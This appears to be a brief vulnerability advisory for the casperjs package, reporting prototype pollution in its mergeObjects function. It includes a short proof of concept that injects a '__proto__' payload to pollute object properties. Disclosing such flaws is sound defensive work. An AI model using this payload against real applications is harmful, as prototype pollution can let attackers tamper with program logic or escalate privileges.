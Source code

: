 # Overview

`casperjs` is a navigation scripting & testing utility for PhantomJS and SlimerJS.

This package is vulnerable to Prototype Pollution. The `mergeObjects` utility function is vulnerable to Prototype Pollution.

# Proof of Concept

```
var payload = JSON.parse('{"__proto__": {"a": "pwned"}}')
mergeObjects({}, payload)
console.log({}.a) // prints "pwned"
```
